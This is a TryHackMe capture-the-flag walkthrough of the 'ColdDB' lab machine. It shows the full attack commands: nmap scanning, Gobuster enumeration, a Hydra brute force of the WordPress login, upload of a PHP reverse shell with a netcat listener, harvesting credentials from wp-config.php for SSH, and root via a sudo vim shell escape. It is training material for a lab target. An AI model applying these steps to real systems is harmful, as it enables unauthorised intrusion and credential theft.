 # TryHackMe - ColdDB (Easy)

Detailed walkthrough of the "ColdDB" machine on TryHackMe.  
Objective: Gain root access by moving from web enumeration to privilege escalation via Vim.

---

## Overview

This machine simulates a typical web-to-root scenario. The goal is to exploit a vulnerable WordPress site to gain a foothold, extract credentials, access the system via SSH, and escalate privileges using a misconfigured `vim` binary.

---

 1. Port Scanning

Initial full TCP port scan:


nmap -p- -T5 10.10.158.121

Open ports found:

    80 (HTTP)

    4512 (SSH on a non-standard port)
---

Service/version detection:

nmap -p 80,4512 -sV -A 10.10.158.121 -oN nmap.txt

---

2. Web Enumeration

Nothing obvious on the homepage. Using Gobuster:

gobuster dir -u http://10.10.158.121 -w /usr/share/wordlists/rockyou.txt

Discovered /Hidden, which contains a message:

    C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. – Philip

This reveals a potential valid username: C0ldd.

---

3. WordPress Login Brute Force

I first tested common credentials like admin:admin and admin:password — no success.

Trying the username C0ldd manually returned a WordPress error indicating that the password is incorrect, meaning the username is valid.

Brute-force attack with Hydra:

hydra -l C0ldd -P /usr/share/wordlists/rockyou.txt 10.10.158.121 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Incorrect" -V

Login successful. Access to the WordPress admin panel is now available at /wp-admin.

---

4. Uploading a Reverse Shell

From the WordPress admin panel, I uploaded a Pentestmonkey PHP reverse shell, disguised as a plugin.

However, it didn't appear in the usual plugins folder. After some digging, I found it uploaded here:

/wp-content/uploads/2025/05/shell.php

I started a Netcat listener:

nc -lvnp 4444

Triggering the URL launched the reverse shell successfully.

---

5. SSH Access & User Flag

From the initial shell, I tried reading /home/c0ldd/user.txt but lacked permission.

I searched the WordPress config file:

cat /var/www/html/wp-config.php

It contained database credentials — which also worked via SSH:

ssh -p 4512 c0ldd@10.10.158.121

After connecting, I was able to read the user flag:

cat /home/c0ldd/user.txt

It was Base64-encoded:

echo "RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==" | base64 --decode

→ Felicidades, primer nivel conseguido!

---

6.  Privilege Escalation

Checked sudo permissions:

sudo -l

Found that vim could be executed as root. Based on GTFOBins:

sudo vim -c ':!/bin/sh'

Confirmed root access with:

whoami
# root

---

7. Root Flag

Read the root flag:

cat /root/root.txt

It was also Base64-encoded:

echo "wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=" | base64 --decode

→ ¡Felicidades, máquina completada!

 ---
 
  Skills Demonstrated

   - Full-range port scanning with Nmap

   - Web directory fuzzing (Gobuster)

   - WordPress user enumeration & brute-force

   - Reverse shell upload via admin panel

   - Credential harvesting from wp-config.php

   - SSH login on custom port

   - Privilege escalation via sudo + GTFOBins

   - Base64 decoding of flags


